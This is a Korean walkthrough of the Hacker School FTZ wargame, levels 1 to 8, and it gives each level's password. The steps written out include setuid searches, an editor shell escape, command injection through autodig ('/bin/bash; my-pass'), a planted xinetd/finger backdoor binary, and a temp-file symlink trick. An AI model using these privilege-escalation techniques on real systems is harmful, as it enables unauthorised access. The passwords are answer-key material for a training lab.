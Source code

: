 <h1>Hacker School FTZ</h1>

**Level1**

hint : Level2 권한에 setuid가 걸린 파일을 찾는다.

find / -user level2 -perm +4000

/bin/ExcuteMe

명령어 실행 bash

my-pass

Level2 Password : hacker or cracker



**Level2**

find / -user level3 -perm -4000

/usr/bin/editor

:!/bin/bash

my-pass

Level3 Password : can you fly?



**Level3**

autodig "/bin/bash; my-pass"

Level4 Password : suck my brain



**Level4**

/etc/xinetd.d/에 backdoor가 존재

cat backdoor

service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}

/home/level4/tmp 폴더에는 backdoor라는게 없음



vi backdoor.c

#include <stdio.h>

int main(){

​	system("my-pass");

​	return 0;

}



gcc -o backdoor backdoor.c

/home/level4/tmp/ 디렉터리 위치에 backdoor 파일을 생성

finger level4@localhost



Level5 Password : what is your name?



**Level5**

hint 

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.



/usr/bin/ 폴더에 level5가 /tmp 디렉토리에 임시파일 생성

하지만 생성 후 삭제하는 것으로 추정

심볼릭 링크 설정

ln -s a level5.tmp

cd /tmp

cat a



Level6 Password : what the hell



**Level6**

hint - 인포샵 bbs의 텔넷 접속 메뉴에서 많이 사용되던 해킹 방법이다.

hint를 출력할 때 Ctrl + C를 누르면 level6 폴더로 이동한다

ls -al 명령어를 통해 password가 존재하는 것을 확인한 후

cat password 명령을 통해 password 확인



Level7 Password : come together



**Level7**

Level8 Password : break the world



**Level8**

hint : 2700 용량인 파일을 찾아라

find / -size 2700c 2> /dev/null

2> /dev/null은 아닌 것들 없애줌

/var/www/manual/ssl/ssl_intro_fig2.gif
/etc/rc.d/found.txt
/usr/share/man/man3/IO::Pipe.3pm.gz
/usr/share/man/man3/URI::data.3pm.gz

3가지 파일이 나오는데

/etc/rc.d/found.txt를 확인

